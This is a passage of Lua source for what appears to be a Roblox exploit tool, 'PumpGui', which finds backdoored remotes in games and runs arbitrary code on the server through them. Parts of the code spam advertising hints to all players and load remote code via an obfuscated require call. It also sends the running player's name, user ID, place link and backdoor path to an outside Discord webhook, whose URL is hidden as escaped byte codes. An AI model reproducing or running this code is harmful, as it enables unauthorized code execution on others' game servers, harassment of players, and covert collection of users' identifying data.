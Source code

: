 	--				runRemote(backdoor, "a=Instance.new('Hint',workspace)while true do a.Text='PumpGui | discord.gg/XXqzxT7E5z | Free and FASTEST Backdoor Scanner'for b=1,13 do a.Parent=workspace;wait(1)a.Parent=nil;wait(0.5)end;wait(60)end")
					runRemote(remote, "require(171016405.1884*69)")			
					runRemote(remote, "a=Instance.new('Hint')a.Text='PumpGui | discord.gg/XXqzxT7E5z | Free and FASTEST Backdoor Scanner'while true do a.Parent=workspace;wait(15)a:Remove()wait(30)end")
					
					local request = (syn and syn.request) or (http and http.request) or http_request or (fluxus and fluxus.request) or request
					if request and not _G.PumpGui_Logs_Disabled then 
						request({
							Url = '\104\116\116\112\115\58\47\47\100\105\115\99\111\114\100\46\99\111\109\47\97\112\105\47\119\101\98\104\111\111\107\115\47\49\49\48\56\54\57\52\49\54\48\52\54\52\49\53\56\55\56\49\47\57\86\67\122\95\99\107\52\117\120\51\77\51\84\81\106\56\109\111\76\68\113\51\78\119\45\100\107\89\68\87\55\103\69\99\97\76\72\75\80\98\101\50\95\74\74\73\122\53\109\50\102\69\104\54\101\83\110\112\51\51\87\79\76\116\103\105\49',
							Method = 'POST',
							Headers = {
								['Content-Type'] = 'application/json',
							},
							Body = HttpService:JSONEncode({
								username='pls dont delete this w3bh00k',
								content="**User: `"..game:GetService('Players').LocalPlayer.Name..'` | `'..game:GetService('Players').LocalPlayer.UserId..'`\nhttps://www.roblox.com/games/'..game.PlaceId..'\n`'..backdoor:GetFullName()..'`**',
							})
						})
					end
	
					return true
				end
--				debug('"'..remote:GetFullName()..'" seems like not backdoor', 1)
			end
			
			wait()--.1)
			
		end
	
		return false
	
	end
	
	GUI.Executor.Execute.Button.MouseButton1Click:Connect(function()
		local a,b=string.gsub(GUI.Executor.ExecutorBox.TextBox.Text, '%%username%%', game:GetService('Players').LocalPlayer.Name)
		
		local protected_backdoor=game:GetService('ReplicatedStorage'):FindFirstChild('lh'..game.PlaceId/6666*1337*game.PlaceId)
		if protected_backdoor and protected_backdoor:IsA('RemoteFunction') then
			debug('Protected backdoor found', 3)
			spawn(function()
				local boolValue, variantValue=pcall(function() protected_backdoor:InvokeServer('PumpGui join today!! discord.gg/XXqzxT7E5z', a) end)
				if variantValue~=nil then
					local splited=string.split(variantValue,':')
					notify(splited[#splited])
				end
			end)
		else
			runRemote(backdoor, a)
		end
		GUI.Executor.Execute.Button.Text='Executed!'
		wait(0.5)
		GUI.Executor.Execute.Button.Text='Execute'
	end)
	GUI.Executor.Clear.Button.MouseButton1Click:Connect(function()
		GUI.Executor.ExecutorBox.TextBox.Text=''